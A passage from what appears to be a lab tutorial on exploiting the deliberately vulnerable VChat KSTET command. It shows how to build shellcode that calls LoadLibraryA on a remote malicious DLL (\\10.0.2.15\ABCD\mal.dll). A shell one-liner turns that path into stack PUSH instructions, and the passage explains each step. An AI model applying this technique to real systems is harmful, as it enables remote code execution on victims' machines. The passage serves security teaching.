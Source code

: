 
	https://github.com/DaintyJet/VChat_KSTET_DLL/assets/60448620/ee57745f-bddc-4f6f-8788-372524798848

#### Shellcode Generation
We will as has been stated many times previously be using the `LoadLibraryA` function,requires which has the following function signature:
```
HMODULE LoadLibraryA(
  [in] LPCSTR lpLibFileName
);
```
* `LPCSTR lpLibFileName`: This is a string specifying the DLL to be loaded, this can be a UNC path.
* This will return the handle to the module if it succeeds. Otherwise, it will be NULL.

The string we need to push on the stack is `\\10.0.2.15\ABCD\mal.dll` as was discussed in the [Malicious DLLs](#malicious-dlls) section earlier. As we are working with a 32-bit system, we need to split this string of 24 bytes (23 chars + 1 NULL) into 4-byte chunks for the optimal PUSH operations onto the stack. The [original blog](https://fluidattacks.com/blog/vulnserver-kstet-alternative/) provides the following shell script.

```sh
$ for i in $(echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8); do python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())"; done | tac | sed 's/^/push 0x/g'
```
To more easily explain this I will be breaking this up below:


First, we will look at the conditional expression of the for loop.
```sh
$(echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll' | xxd -ps | tr -d '\n' | fold -w 8)
```
* [`echo -ne '\\\\10.0.2.15\\ABCD\\mal.dll'`](https://www.man7.org/linux/man-pages/man1/echo.1.html): This will print "\\\\10.0.2.15\ABCD\mal.dll" to the standard output.
	* `-n`: Do not print the newline character.
	* `-e`: Evaluate escape characters (Ex. \n \e \t...).
* [`| xxd -ps`](https://linux.die.net/man/1/xxd): Pipe the output of the *echo* command into the stdin of *xxd* which takes the input and converts the stdin values to their equivalent hexadecimal output.
	* `-p`: Output in plain hexdump style.
	* `-s`: Sets starting seek position, since this is empty we are reading from stdin.
* [`| tr -d '\n'`](https://www.man7.org/linux/man-pages/man1/tr.1.html): Pipe the output of the *xxd* command into the *tr* command which can be used to translate or delete characters.
	* `-d '\n'`: Delete any newline characters.
* [`fold -w 8`](https://www.man7.org/linux/man-pages/man1/fold.1.html): Pipe the output of the *tr* command into the *fold* which will wrap each line of input (1) to fit in the width we specify.
	* `-w 8`: Specify the width as 8 characters.
* This means we convert the string into a series of 4-byte hexadecimal chunks as the for loop is written as `for i in $(...)` we can reference each line as `$i`.

Now we can look at the body of the for loop:
```sh
$ python3 -c "import struct;print(struct.pack('<L', 0x$i).hex())";
```
* `python3 -c`: Run the python interpreter on the following code, write the results to stdout.
	* `import struct`: The module "struct" performs conversions between Python values and C structs represented as Python bytes objects.
	* `print(struct.pack('<L', 0x$i).hex())`: Print one of the lines ($i) resulting from the conditional statement as a little endian hexadecimal value to stdout.
	* This is repeated till all the 4-byte chunks have been converted.
